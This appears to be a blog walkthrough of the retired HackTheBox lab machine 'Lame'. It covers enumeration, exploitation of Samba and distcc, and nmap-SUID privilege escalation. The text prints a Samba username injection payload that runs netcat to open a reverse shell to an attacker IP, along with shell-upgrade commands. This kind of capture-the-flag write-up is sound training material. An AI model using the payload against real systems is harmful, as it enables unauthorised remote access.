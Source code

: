 ```yaml
---
title: Lame - HackTheBox Walkthrough
date: 2021-10-05 12:00:00 
categories: [HackTheBox,Linux]
tags: [smb,distcc,sudo]
img_path: /assets/img/HTB/Lame/
image: 
  path: 00-banner.png
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Lame` a retired machine by HackTheBox. Without further ado, let’s begin.

# Recon

## Nmap

As always, we'll start with a nmap scan to discover the open ports and services.

![01-nmap](01-nmap.png)

Let's start the FTP enumeration, but before we will run a complete nmap scan in the background to make sure we covered all ports.

![02-nmap](02-nmap.png)

The new port that we get is 3632 running distccd service, this could be interesting later.

## FTP

FTP allows anonymous login but the directory is empty.
Searching the version of it using `searchsploit` we find that is vulnerable to a backdoor command execution.

![03-ftp](03-ftp.png)

This vulnerability conscist in open a backdoor on the port 6200 when the attacker send a string that contains this characters `:)` as the username and nmap has a script to test it.

![04-backdoor](04-backdoor.png)

It looks that is not vulnerable.

## Samba

The next interesting service to enumerate is Samba, but for this occasion we must run smbclient with `--option="client min protocol=NT1"` as [argument](https://forum.hackthebox.com/t/psa-fix-to-smbv1-smbclient-issues/2351) to work with SMBv1 shares.

![05-smbclient](05-smbclient.png)

We can access to `tmp` directory but there’s nothing interesting in it.

![06-smbclient](06-smbclient.png)

Searching for if there any vulnerability in this version of samba we find a command execution.

![07-smb](07-smb.png)

# Exploitation #1 - Samba

Checking the [exploit](https://www.exploit-db.com/exploits/16320), It seems samba execute this command ``"/=` nohup nc -e /bin/sh 10.10.14.31 443`"`` when we login with that as username.

![08-revShell](08-revShell.png)

We are root!!

# Exploitation #2 - Distcc

If we remember the complete nmap scan it show us that there a service running on the port 3632, distcc. We can exploit a remote code execution vulnerability in this service using a [nmap script](https://nmap.org/nsedoc/scripts/distcc-cve2004-2687.html) .

![09-distcc](09-distcc.png)

## Shell as daemon

So let's send a reverse shell.

![10-revShell](10-revShell.png)

To get a interactive shell just we must run the next commands.
```console
$ python -c 'import pty; pty.spawn("/bin/bash")'
$   ^Z
$ stty raw -echo;fg
$   reset
$ export TERM=xterm
$ export SHELL=bash
```
## Shell as root

As we see in the screenshot below nmap has SUID permissions.

![11-suid](11-suid.png)

Running [gtfoshell](https://github.com/Degr4ne/GTFOShell) to search on GTFOBins in terminal, we get the command to get a shell using nmap.

![13-root](13-root.png)
![12-gtfoshell](12-gtfoshell.png)

Voila!! We are root again.

Until next time.

